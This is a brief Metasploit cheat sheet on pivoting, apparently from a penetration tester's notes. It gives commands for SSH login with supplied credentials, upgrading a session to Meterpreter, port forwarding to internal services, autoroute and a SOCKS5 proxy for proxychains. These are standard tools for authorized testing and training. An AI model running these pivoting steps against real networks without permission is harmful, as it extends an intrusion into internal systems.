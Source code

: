 # Metasploit

# Usage:

#### route add/del IP SUBNET [COMM/SID] (proxy)

#### portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## On a Meterpreter session, run:

    run autoroute -s TARGET_SUBNET/MASK

## Port Forwarding with Metasploit

### 1) With SSH login

    use auxiliary/scanner/ssh/ssh_login

    set rhosts RHOSTS

    set username USERNAME

    set password PASSWORD

    exploit

### Upgrade to Meterpreter session. Creates an EXTRA session with meterpreter

    sessions -u 1 

    sessions 2

### Check for applications that run internally within the target

    netstat -antp 

    portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1

## Tunneling with Metasploit

### 1) autoroute (Deprecated)

    sessions

    use post/multi/manage/autoroute

    set session SESSION_NUM

    exploit

    use auxiliary/server/socks5

    set srvhost 127.0.0.1

    exploit

### Then go to web browser in Kali and make the manual proxy configuration settings

## TIP: Instead, we can use proxychains to connect to internal machines in the network

### Same steps apply to socks4a proxy
